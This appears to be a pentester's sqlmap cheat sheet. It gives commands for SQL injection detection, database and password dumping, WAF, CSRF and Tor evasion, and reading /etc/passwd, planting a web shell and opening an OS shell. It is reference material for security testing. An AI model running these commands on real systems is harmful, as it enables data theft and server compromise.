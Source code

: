 Advanced help
```shell
sqlmap -hh
sqlmap --parse-errors
sqlmap -t /tmp/traffic     <--Log traffic content/each request
sqlmap -v 6                <--Verbose mode 6 see requests.. 3 see payloads
sqlmap --proxy             <--Use a proxy like Burp to replay requests
```
### SQLMap Basic Attacks

> [!NOTE] NOTE
> It's always good to randomize the agent every time with `--random-agent`

Websocket + JSON testing
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"123"}' --batch
```

Batch test (`-u` for GET `--data` for POST)
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1&user=test'--batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1*&user=test'--batch
```

> [!NOTE] Note
> Using `Copy as cURL` within firefox is the best way to attack a specific target
> Having the * beside a data parameter tells SQLMap to focus on it

Using HTTP Request from Burp
```shell
sqlmap -r req.txt
```
Other switches: cookies, headers, user agents, referer
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

sqlmap --user-agent="..."
sqlmap ... --random-agent
sqlmap ... --mobile

sqlmap --referer='127.0.0.1'
sqlmap --method PUT
```
Inject into header values
```shell
sqlmap ... --cookie="id=1*"
```
### Tuning
Increase  amount of payloads and risk of DoS or loss of data
```shell
sqlmap ... --level=5 --risk=3
sqlmap ... --prefix="%'))" --suffix="-- -"
sqlmap ... --prefix='`)'
```

> [!NOTE] NOTE
>  in special cases of SQLi vulnerabilities, where usage of OR payloads is a must (e.g., in case of login pages), we may have to raise the risk level ourselves.
>  This is because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements (although less commonly) are actively modifying the database content (e.g. DELETE or UPDATE)

Specify detection method
```shell
sqlmap ... --code=200          <-- ex: HTTP code 200 TRUE 500 FALSE
sqlmap ... --titles            <-- difference in detection is in the HTML title
sqlmap ... --string=success    <-- "success" is shown if TRUE and not if FALSE
sqlmap ... --technique=BEU     <-- Only do boolean blind,error and UNION payloads
sqlmap ... --union-cols=5      <-- Specify amount of columns for Union based
```

> [!NOTE] IMPORTANT
> Sometimes SQLMap can't find everything on it's own. It's important to tune and tweak it by adding different `prefixes` and even specifying the amount of `columns` if you think you know the amount

### Database Enumeration
Banner, current user, database and is database Admin
```shell
sqlmap ...  --banner --current-user --current-db --is-dba --threads 10 
```
List databases, tables, table contents, specific table rows (start at row 3 stop at 10)
```shell
sqlmap ... --dbs --threads 10 
sqlmap ... -D testDB --tables --threads 10 
sqlmap ... -D testdb -T users --dump --threads 10 
sqlmap ... -D testdb -T users -C username,password --dump --threads 10 
sqlmap ... -D testdb -T users -C username,password --dump --start=3 --stop=10
```
Conditional enumeration
```shell
sqlmap ... -D testdb -T users --dump --where="username LIKE 'admin%'"
```
Dump all tables and databases
```shell
sqlmap ... --dump --threads 10 
sqlmap ... --dump-all
sqlmap ... --dump-all --exclude-sysdbs
```
### Advanced Database Enumeration
Retrieve the structure of all of the tables to have a complete overview of the database architecture
```shell 
sqlmap ... --schema
```
Search for table and column name in all databases (uses `LIKE`) - DO FOR ALL DBs
```shell
sqlmap ... --search -T user
sqlmap ... --search -C password
```
Enumerate system tables for passwords
```shell
sqlmap ... --passwords
```
### Bypass Web App Protections
Bypass CSRF by specifying the token name & contents. **CHECK FOR ANY TOKEN PARAMETERS IN REQUESTS**
```shell
sqlmap ... --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
Unique value bypass. Randomize values of parameters in payloads. **CHECK FOR WHATS BEING RANDOMIZED/CHANGED IN REQUESTS** 
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5
```
Calculated Parameter bypass. Used when a web application expects a proper parameter value to be calculated based on some other parameter value(s).Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. Python code needed injunction with `--eval`
```shell 
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```
Proxies and Tor
```shell
sqlmap ... --proxy="socks4://177.39.187.70:33283"
sqlmap ... --proxy-file=/opt/proxies.txt
sqlmap ... --tor --check-tor
```
Skip WAF detection to create less noise
```shell
sqlmap ... --skip-waf
```
Tamper scripts are used to bypass WAFs/IPS solutions by obfuscating the payloads
```shell
sqlmap ... --tamper=between,randomcase
sqlmap ... --list-tampers
```
### OS Exploitation
Need to be database administrator to preform the following
```shell 
sqlmap ...  --file-read "/etc/passwd"

sqlmap ... --file-write "shell.php" --file-dest "/var/www/html/shell.php"

sqlmap ... --os-shell
sqlmap ... --os-shell --technique=E
```